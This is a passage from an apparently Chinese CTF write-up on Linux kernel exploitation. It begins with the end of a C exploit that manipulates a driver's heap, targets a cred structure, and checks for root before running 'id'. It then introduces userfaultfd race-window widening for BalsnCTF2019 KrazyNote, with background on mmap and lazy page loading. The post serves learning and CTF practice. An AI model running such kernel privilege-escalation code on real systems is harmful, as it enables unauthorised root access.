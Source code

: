 ```c
    final[idx++] = 0;
    final[idx++] = 1;
    final[idx++] = 0;
    //
    Read(fd,0xc7,cred-0x000d00620000002eL,0x100*8);
    char zero[0x28];
    memset(usr_buf,'\x00',0x30);
    usr_buf[0] = '\x03';
    Malloc(fd,2,usr_buf);
    //
    for(int i = 10;i > 3;i--)
        Free(fd,i);
    if(getuid() == 0){
        system("id");
    }
    return 0;
}

```

## 使用userfaultfd缺页扩大窗口期

### 介绍

之前想复现n1ctf的babykernel和de1ctf的race，发现官方题解中都有mmap的部分，一直不是很理解，终于在先知上找到一篇相关的[文章](https://xz.aliyun.com/t/6653)，写的非常详细，因此自己实践了一下(照着exp打了一遍)，记录一下userfaultfd的使用

### BalsnCTF2019 KrazyNote

#### 背景知识

###### 页和虚内存

内核的内存主要有两个区域，RAM和交换区，将要被使用的内存放在RAM，暂时用不到的内存放在交换区，内核控制交换进出的过程。RAM中的地址是物理地址，内核使用虚拟地址，其通过多级页表建立虚拟地址到物理地址的映射

###### 页调度和延迟加载

有的内存既不在RAM又不在交换区，比如mmap出来的内存，这块内存在读写它之前实际上并没有被创建（没有映射到实际的物理页），例如`mmap(0x1337000, 0x1000, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_PRIVATE, fd, 0);`实际上并没有把fd对应的内容拷贝到这块区域，只是将地址`0x1337000`映射到`fd`这个文件。

当有以下代码访问时：

```c
char *a = (char *)0x1337000
printf("content: %c\n", a[0]);
```
内核会做以下事情：
1. 为0x1337000创建物理帧
2. 从fd读取内容到0x1337000
3. 增加一个页表的索引

总之，如果是初次访问mmap的页，`耗时会很长，导致上下文切换以及当前线程的睡眠`
